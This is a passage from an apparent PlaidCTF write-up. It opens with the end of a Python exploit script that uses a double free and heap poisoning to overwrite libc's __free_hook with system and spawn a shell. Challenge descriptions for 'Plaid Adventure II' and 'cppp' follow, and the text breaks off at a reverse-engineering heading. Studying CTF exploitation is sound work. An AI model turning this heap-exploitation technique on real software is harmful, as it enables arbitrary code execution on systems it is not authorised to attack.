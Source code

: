 ```python  
select(-7456/8) #reset root to freed root node  
delete(0) #double free, 0x50 chunk poisoned, var2 == next == nullptr == 0  
select(-7536/8) #prevent cycle maybe? it will loop forever if we don't have
this  
#reset the root to prevent cycling, the fake root must be empty

add(libc_addr + e.symbols["__free_hook"])  
select(-7616/8) #reset the root to prevent cycling, the fake root must be
empty  
add(libc_addr + 0x4f322) # consume bin  
add(libc_addr + e.symbols["system"]) # rewrite here

add(u64("/bin/sh\x00"))  
delete(u64("/bin/sh\x00"))

sh.interactive()  
```

## 250 Pwnable / Plaid Adventure II ##

**Description**

> Embark on another adventure! Restore from the savefile "flag.glksave" on the
> server to get the flag. (Apologies to Zarf for making a Glulx pwnable.)  
>

    
    
    > stty -icanon -echo  
    > nc plaidadventure2.pwni.ng 6910  
    > stty sane  
    > 

  
> download

**No files provided**

## 150 Pwnable / cppp ##

**Description**

> C++ is hard.  
  
> cppp.pwni.ng 4444  
  
> [binary](files/cppp_58fc210859e4c5e43d051b6476cbc9f7), libc

**Files provided**

- [`cppp_58fc210859e4c5e43d051b6476cbc9f7`](files/cppp-cppp_58fc210859e4c5e43d051b6476cbc9f7)

**Solution**

### Reverse Engineering

